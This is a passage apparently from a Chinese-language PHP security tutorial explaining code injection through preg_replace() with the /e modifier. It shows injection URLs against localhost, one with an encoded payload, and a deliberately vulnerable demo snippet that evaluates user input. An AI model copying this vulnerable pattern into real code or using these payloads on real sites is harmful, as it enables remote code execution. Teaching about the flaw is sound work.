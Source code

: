 		当我们提交 http://127.0.0.1/preg_replace2.php?h=phpinfo() 即
		执行phpinfo()。
		
	3.3 preg_replace()第三个参数注射
		
		我们通过构造subject参数执行代码。
		提交：http://127.0.0.1/preg_replace3.php?h=[php]phpinfo()[/php]
		或者 http://127.0.0.1/preg_replace3.php?h=[php]${phpinfo%28%29}[/php] 导致代码执行
		demo code 3.3:
		<?
		preg_replace("/\s*
		php
		(.+?)
		\/php
		\s*/ies", "\\1", $_GET['h']);
		?>

#正则表达式bypass

